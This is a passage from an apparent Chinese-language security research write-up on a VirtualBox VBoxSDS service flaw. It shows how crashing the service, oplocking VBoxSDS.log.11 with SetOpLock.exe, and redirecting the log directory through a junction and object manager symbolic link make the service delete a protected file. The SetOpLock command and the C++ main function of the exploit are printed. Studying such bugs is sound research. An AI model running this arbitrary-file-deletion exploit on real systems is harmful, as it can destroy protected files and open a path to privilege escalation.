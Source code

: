 ![](https://cdn.nlark.com/yuque/0/2024/png/12719746/1715343403148-7304f4ec-b218-4b76-a44e-467d68107ca2.png)

反复触发崩溃会导致原有的日志文件逐步删除，最后仅剩我们的备份文件和触发崩溃的文件夹（`VBoxSDS.log`）。

### 代码实现

我们使用p0tools中的`SetOpLock.exe`锁住复制到`C:\ProgramData\VirtualBox`路径下的`VBoxSDS.log.11`，然后开启`VboxSDS`：`sc start VboxSDS`

```php
SetOpLock.exe C:\ProgramData\VirtualBox\VBoxSDS.log.11
```

![](https://cdn.nlark.com/yuque/0/2024/png/12719746/1715754288583-639a6e10-6359-4c39-88f8-06aa8871783c.png)

但是锁住的时间不能太长，否则会出现服务无响应的情况：

![](https://cdn.nlark.com/yuque/0/2024/png/12719746/1715754333120-113cc5a0-382b-4056-9a1d-ef4a7d735e88.png)

因此我们可以尝试在锁住期间利用符号链接技术达到任意文件删除的效果。我们需要做的是：

1. 把`C:\ProgramData\VirtualBox`目录内容清空，变为空目录（后续用来转为连接点，连接点需要为空目录才能进行转换）
2. 把`VBoxSDS.log.11`文件与目标删除的文件创建对象管理器符号链接。

我们设置一个目标文件`C:\Users\root\Downloads\target.txt`作为删除的靶标，并关闭当前用户对其的操作权限：

![](https://cdn.nlark.com/yuque/0/2024/png/12719746/1715755269994-741617c8-d2fb-4ff3-8372-610e1cde9a3c.png)

当我们使用当前用户删除时现在已经无法做到了：

![](https://cdn.nlark.com/yuque/0/2024/png/12719746/1715755341566-95a74786-fecf-430f-90c1-fe6a574b5d19.png)

接下来我们设计代码执行流程：

1. 加载API
2. 检查VirtualBox环境是否存在
3. 清除目录
4. 创建连接点和创建对象管理器符号链接
5. 运行runSDS来触发文件删除操作

下面我们来逐步实现任意文件删除（此处仅对关键函数进行标注）：

主函数：

```php
// 任意文件删除
int wmain() {

    loadapis();         // 加载API
    checkIfExists();    // 检查VirtualBox环境是否存在
    clearDataDir();     // 清除目录：先创建log.11文件，然后上锁，当触发这个锁的时候就创建VBoxSDS.log目录并释放log.11锁

    HANDLE hDir = getDirectoryHandle(BuildPath(L"C:\\ProgramData\\VirtualBox"), GENERIC_READ, FILE_SHARE_READ | FILE_SHARE_WRITE, FILE_OPEN_IF);
    printf("hDir: %x\n", hDir);

    // 创建一个新的线程，该线程将执行 Monitor 函数，并传递一个参数 hDir 给该函数
    // Monitor函数：给log.11上锁，触发锁后调用函数 cb0：cb0函数先删除log.11文件，然后创建连接点和创建对象管理器符号链接，然后运行runSDS来触发文件删除操作
    HANDLE zxc{};
    zxc = CreateThread(NULL, 0, (LPTHREAD_START_ROUTINE)Monitor, hDir, 0, NULL);

    Sleep(10000);
    // 删除已转换为连接点的 C:\\ProgramData\\VirtualBox
    DeleteJunction(dir);
    // 关闭线程句柄
    CloseHandle(zxc);

    return 0;
}
```
